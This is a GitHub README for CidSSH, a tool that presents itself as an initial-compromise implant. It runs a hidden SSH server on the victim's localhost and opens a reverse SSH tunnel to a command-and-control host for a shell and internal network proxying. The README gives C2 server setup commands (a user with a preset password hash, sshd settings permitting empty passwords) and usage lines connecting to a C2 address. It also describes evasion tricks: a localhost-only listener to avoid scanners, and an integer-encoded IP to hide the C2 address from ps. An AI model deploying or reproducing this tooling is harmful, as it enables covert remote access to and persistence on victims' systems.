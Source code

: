 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases). They are ready to roll.

If you want to compile from source keep reading below.

## Using it

Defaults: user is `anonymous`.

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
[Page to do the conversion](http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp).

## Compilation

You can find more info about compilation [here](COMPILATION.md).

## Authors
- Alberto Garcia Illera (alberto.garcia@getcruise.com)
- Francisco Oca (foca@getcruise.com)
- Bert JW Regeer (bert.regeer@getcruise.com)
